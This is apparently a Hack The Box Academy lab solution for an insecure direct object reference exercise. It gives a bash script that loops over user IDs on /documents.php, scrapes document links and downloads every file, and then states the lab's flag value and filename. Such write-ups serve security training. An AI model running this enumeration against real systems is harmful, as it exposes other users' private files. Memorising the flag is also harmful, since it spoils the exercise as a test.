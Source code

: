 ## Question 1

### "Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a 'flag.txt' document."

After spawning the target machine and visiting its website's root webpage, students first need to intercept the request that retrieves documents:

![[HTB Solutions/CBBH/z. images/ff87a11b1b17440c31c58bc3936cbdb9_MD5.jpg]]

Students will notice that a POST request gets sent to `/documents.php`, along with the `uid` of the employee passed in the `uid` POST parameter; the web server returns the documents of the relevant employee by appending the file names in the `href` attribute within `anchor` tags:

![[HTB Solutions/CBBH/z. images/f40e6501eaa64384b49e6d5e19d44de1_MD5.jpg]]

Therefore, students need to write a script to loop over the first 20 employees' `uid` and capture their document names/links to subsequently download them:

Code: bash

```bash
#!/bin/bash

url="http://$1"

for i in {1..20}; do
	for link in $(curl -s -X POST "$url/documents.php" -d "uid=$i" | grep -oP "/documents.*?\.[a-z]{3}"); 
	do
		wget -q $url$link
	done
done
```

After saving the script into a file, students need to run it and provide `STMIP:STMPO` as the first command line argument:

Code: shell

```shell
bash script.sh STMIP:STMPO
```

```
┌─[us-academy-1]─[10.10.14.20]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ bash script.sh 94.237.62.195:53190
```

Once the script finishes executing, students will find the flag `HTB{4ll_f1l35_4r3_m1n3}` in the file `flag_11dfa168ac8eb2958e38425728623c98.txt`:

Code: shell

```shell
cat flag_11dfa168ac8eb2958e38425728623c98.txt
```
